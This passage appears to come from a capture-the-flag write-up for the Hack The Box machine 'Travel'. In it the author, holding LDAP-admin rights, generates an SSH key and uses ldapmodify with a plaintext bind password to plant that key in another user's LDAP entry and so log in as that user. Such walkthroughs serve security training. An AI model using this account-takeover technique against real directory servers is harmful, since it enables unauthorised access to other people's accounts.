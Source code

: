 ```bash
homeDirectory: /home/lynik
givenName: Lynik
gidNumber: 5000
sn: Schmidt
cn: Lynik Schmidt
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: inetOrgPerson
objectClass: posixAccount
objectClass: shadowAccount
loginShell: /bin/bash
[...]
```

Seems like our user is the LDAP-administrator. There are a couple of identical users, however I am going to use the  `lynik` user. This user currently has the `uidNumber` of 5000 and the gidNumber of `5000`.  After a bit of research I found that it is possible to add SSH-keys to LDAP user and use that key to login via SSH then. As we are the LDAP-admin, this gives us an easy way to login as any LDAP user.

#### Overwriting SSH-Pub in LDAP

Let us generate an `ssh-key` for lynik, which we will add to his profile.

```bash
ssh-keygen -f lynik.key
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in lynik.key
Your public key has been saved in lynik.key.pub
The key fingerprint is:
SHA256:hfZ7yFl0EFbyZNlGB+1Ev0sZ4uA6qVUAeMMqiUdJ1gs root@darkness
The key's randomart image is:
+---[RSA 3072]----+
|  .oo o.    =o=B+|
|  .E o +.. . *. B|
|  o o + +.....o=.|
| . + o . oo.o.. =|
|  . .   S .o.. + |
|         .+=  . .|
|         == .  . |
|        o ..     |
|       .         |
+----[SHA256]-----+
```

Next let us update the LDAP user's `sshPublicKey` attribute.

```bash
lynik-admin@travel:~$ ldapmodify -h ldap.travel.htb -D cn=lynik-admin,dc=travel,dc=htb -w Theroadlesstraveled
dn: uid=lynik,ou=users,ou=linux,ou=servers,dc=travel,dc=htb
add: objectClass
objectClass: ldapPublicKey
-
add: sshPublicKey
sshPublicKey: ssh-rsa AAAAB[...]DTCuPc=

modifying entry "uid=lynik,ou=users,ou=linux,ou=servers,dc=travel,dc=htb"
```

